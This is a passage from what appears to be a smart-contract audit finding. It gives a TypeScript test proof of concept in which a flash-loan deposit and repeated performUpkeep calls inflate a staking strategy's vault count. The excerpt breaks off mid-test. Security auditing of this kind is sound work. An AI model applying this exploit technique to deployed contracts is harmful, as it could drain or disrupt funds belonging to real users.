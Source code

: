 **Proof of Concept:**
```typescript
  it(`flash loan attack to max out community vaults`, async () => {
    const {
      token,
      accounts,
      signers,
      adrs,
      strategy,
      priorityPool,
      stakingPool,
      stakingController,
      rewardsController,
      updateVaultGroups,
    } = await loadFixture(deployCommunityVaultFixtureWithStrategyMock)
    //@note this fixture uses a strategy mock to simulate a strategy with a max deposit of 900 tokens
    //@note by now, that strategy is already full -> so any further deposits go into the Community VCS

    console.log(`strategies length ${(await stakingPool.getStrategies()).length}`)
    assert.equal((await strategy.getVaults()).length, 20)
    await stakingPool.deposit(accounts[0], toEther(1500), [encodeVaults([]), encodeVaults([])])

    // get initial deposit index
    const [, , , depositIndex] = await strategy.globalVaultState()
    console.log(`deposit index`, depositIndex.toString())

    await strategy.performUpkeep(encodeVaults([]))
    assert.equal((await strategy.getVaults()).length, 40) //@audit 20 new vaults are created

    await updateVaultGroups([0, 5, 10], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([1, 6, 11], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([2, 7], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([3, 8], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([4, 9], 300)

    //@note a user can flashloan 1100 tokens -> deposit them with no vaultIds -> deposit index moves to 26
    await stakingPool.setPriorityPool(adrs.priorityPool)
    await token.approve(adrs.strategy, ethers.MaxUint256)
    await token.connect(signers[2]).approve(priorityPool.target, ethers.MaxUint256)
    await priorityPool
      .connect(signers[2])
      .deposit(toEther(1100), false, [encodeVaults([]), encodeVaults([])])

    const [, , , newDepositIndex] = await strategy.globalVaultState()

    //@note user can then performUpkeep (or wait for keeper to do this) to further increase vaults to 60
    await strategy.performUpkeep(encodeVaults([]))
    assert.equal((await strategy.getVaults()).length, 60) //@audit 20 new vaults are created again

    //@note 300 is now available for withdrawal
    //@note 800 is withdrawable from first strategy
    //@note creating a mock staking pool to simulate this

    //@note 800 + 300 -> total withdrawable is 1100
    //@note user can then withdraw complete amount to repay flash without queueing

```